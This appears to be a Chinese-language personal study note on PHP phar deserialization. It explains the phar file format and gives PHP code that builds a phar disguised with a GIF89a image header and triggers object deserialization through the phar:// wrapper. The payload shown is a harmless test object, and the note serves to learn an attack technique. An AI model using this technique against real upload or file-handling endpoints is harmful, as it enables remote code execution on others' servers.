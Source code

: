 - # 介绍
	- phar 类似于压缩包，但除了文件之外，phar 还包含一个被序列化的对象。
	  当我们用`phar://phar.gif/test.txt`访问 phar 文件`phar.gif`内的文件时，插入其中的对象会被反序列化，并会在之后被销毁（也就是会执行`__destruct()`）。
-
- # .phar 文件格式
	- 1. `phar`文件头的识别格式是`xxx` + `<?php __HALT_COMPILER(); ?>`，只有这样的格式才能被识别为`phar`文件
	  2. `phar`是压缩文件，那么压缩文件的信息就会存在第二段**manifest describing**，这一段是放序列化的`poc`
	  3. 压缩的文件的内容被存在第三段，也就是上面 payload 的中的`text.txt`
	  4. 数字签名为该`phar`的第四段
- # 生成 Phar 文件
	- ```php
	  <?php
	  //反序列化payload构造
	  class TestObject {
	  }
	  $o = new TestObject();
	  $o->data='just a test';
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  ?>
	  ```
- # 利用 Phar 文件
	- ```php
	  <?php
	  	class TestObject{
	  function __destruct(){
	  	echo $this->data;
	  }
	  	}
	  
	  	include "phar://phar.phar/test.txt";
	  ?>
	  ```
	  
	  访问`phar://phar.phar`也可以利用
- # 其他
	- https://www.php.net/manual/en/phar.using.intro.php
	- phar 文件中可以塞 PHP 命令
-